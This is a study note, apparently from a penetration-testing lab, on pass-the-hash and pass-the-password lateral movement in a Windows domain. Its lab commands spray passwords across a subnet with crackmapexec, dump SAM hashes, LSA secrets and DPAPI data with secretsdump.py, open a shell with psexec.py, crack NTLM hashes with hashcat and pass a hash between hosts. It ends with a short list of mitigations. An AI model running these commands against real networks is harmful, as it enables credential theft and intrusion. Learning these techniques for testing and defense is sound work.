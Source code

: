 2. Pass the Hash / Pass the Password

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

### crackmapexec
Can use **`crackmapexec`**, can grab hashes and pass these or do the same with a password

```
sudo apt install crackmapexec
```

```
sudo crackmapexec smb 10.10.10.0/24 -u fcastle -d MARVEL.local -p Password1
```
Good to do password springs only on local accounts (less risk of getting locked out)
![c45faa7f9230bf4a9fd4c14919817344.png](../../_resources/662d19c9423a4bae8117d997abbf8792.png)

We can also use an option to try and get (and dump the sam hashes)
```
sudo crackmapexec smb 10.10.10.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```

![fb458e5970d18fc6d20f3cd8bc6e0e64.png](../../_resources/78d05a6740eb425db582417d1b594785.png)

now we know that fcastle is admin on the 10.10.10.4 machine. 
Can span shell:

```
sudo psexec.py marvel/fcastle:Password1@10.10.10.4
```



### secretsdump.py
Can use **`secretsdump.py`** as part of the Impacket tool

```
sudo secretsdump.py marvel/fcastle:Password1@10.10.10.5
sudo secretsdump.py marvel/fcastle:Password1@10.10.10.4
```
![df1b9dc8032bd9bb34b46b7e332947a8.png](../../_resources/2fbaf274ae3345efab1581d9a816f9b9.png)
will dump not hust hashes but also, LSA secrets, DPAPI
We will focus on any local SAM hashes we get back. 

Put all hashes into a file (only user and admin ones)
These local hashes are NTLM (not ntlmv2) stored under module 1000
If we cannot crack them, we can try to pass the hashes around
Can only pass NTLM not NTLMv2 hashes around

```
sudo hashcat -m 1000 /usr/share/wordlists/rockyou.txt -O
```
-O for optimisation 
![d3513d55b58eed88dbed99fa4a649eba.png](../../_resources/a3562ca07a794f30b5725577927f68b4.png)

Passing Frank Castle's hash around
```
sudo crackmapexec smb 10.10.10.0/24 -u "Frank Castle" -H 5835...0ef --local-auth
```
![fda11e34876c6fb03c20e2f3cf628d87.png](../../_resources/fb8cbaa9ad3b4600b9167ba0d45856a6.png)

## Pass the Hass/Password Mitigation
Hard to completely prevent, but can make it more difficult for the attacker:

- Limit account re-use
	- Avoid re-using local admin password
	- Disable Guest and Administrator accounts
	- Limit who is a local administrator (least priviledge)
- Utilise strong passwords
	- The longer the better (>14 characters)
	- Avoid using common words
	- Long sentences are good
- Privilege Access Management (PAM)
	- Check out/in sensitive accounts when needed
	- Automatically rotate passwords on check out and check in
	- Limits pass attacks as hash/password is strong and constantly rotated


